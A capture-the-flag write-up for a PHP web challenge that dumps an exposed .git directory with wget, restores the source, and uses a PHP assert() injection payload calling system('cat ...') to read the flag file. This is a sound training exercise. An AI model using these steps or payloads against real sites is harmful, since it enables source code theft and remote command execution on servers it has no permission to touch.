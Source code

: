 # mfw

![Screenshot from 2021-07-25 09-33-39](https://user-images.githubusercontent.com/87865134/126885810-05db8c07-e99c-420d-bf93-558c6a589a71.png)

## - Hint:
  - web use: *git*, *php*, *bootstrap* -> maybe git disclosure
  - *?page=flag* -> flag may be in here

![Screenshot from 2021-07-25 09-33-50](https://user-images.githubusercontent.com/87865134/126885853-3bce7c1f-9960-4806-8559-5d9fe039d969.png)

![Screenshot from 2021-07-25 09-34-14](https://user-images.githubusercontent.com/87865134/126885855-cc5362ce-14f4-4f1b-8585-18436eb77820.png)

## 1. Check git disclosure
  ```
  http://111.200.241.244:64683/.git/
  ```  
  ![Screenshot from 2021-07-25 09-41-39](https://user-images.githubusercontent.com/87865134/126885895-1f46e63d-2207-4ad7-9330-28bab05b7850.png)

## 2. Download git snapshot to view source code
  - download:   
    ```
    wget -r http://111.200.241.244:64683/.git/
    ``` 
  - after download, check git status:  
    ```
    git status
    ```  
    ![Screenshot from 2021-07-25 09-47-07](https://user-images.githubusercontent.com/87865134/126885993-5e0c3d6b-0e58-411c-9aae-a27c09312884.png)

  - some files are deleted -> restore file:  
     ```
     git restore index.php
     git restore templates
     ```
## 3. View source code
  - **in file flag.php:**  
   ![Screenshot from 2021-07-25 09-49-12](https://user-images.githubusercontent.com/87865134/126886044-9b28b33e-351e-4ce8-b0ac-dcfb33e67784.png)  
    - > Flag maybe here
  
  - **in file index.php:**  
  ![Screenshot from 2021-07-25 09-49-22](https://user-images.githubusercontent.com/87865134/126886041-aa6138af-6cb7-458a-bcd3-153b2c754436.png)  
    - `assert(mixed $assertion, string $description = ?): bool`
      - > -> Command injection

## 4. Command Injection
  - payload: `'.system('cat templates/flag.php').'`  
  ![Screenshot from 2021-07-25 09-57-12](https://user-images.githubusercontent.com/87865134/126886172-af5e8afc-3fe3-4754-b7bf-d8d1fba82e3b.png)

   
## - Decription:
> **category**: 
  - Git disclosure
  - Command Injection

## - Reference:
  - [assert()](https://www.php.net/manual/en/function.assert.php)
